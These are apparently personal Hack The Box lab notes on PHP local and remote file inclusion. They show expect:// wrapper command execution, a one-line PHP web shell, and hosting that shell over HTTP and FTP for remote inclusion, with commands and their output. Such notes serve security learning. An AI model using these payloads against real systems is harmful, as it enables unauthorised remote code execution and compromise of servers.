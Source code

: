 ```shell
pradyun2005@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

```shell
pradyun2005@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```




## Remote File Inclusion (RFI)

- allows the inclusion of remote URLs
	1. Enumerating local-only ports and web applications (i.e. SSRF)
	2. Gaining remote code execution by including a malicious script that we host

- almost any RFI vulnerability is also an LFI vulnerability

### Verify RFI

- remote URL inclusion in PHP require `allow_url_include` setting to be enabled

```shell
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```


- always start by trying to include a local URL

![[Pasted image 20240614112342.png]]
- we see page rendered 
- possible of Dos


### Remote Code Execution with RFI


```shell
pradyun2005@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

**File Transfer**
#### HTTP
 
```shell
pradyun2005@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) 
```

#### FTP


```shell
pradyun2005@htb[/htb]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```
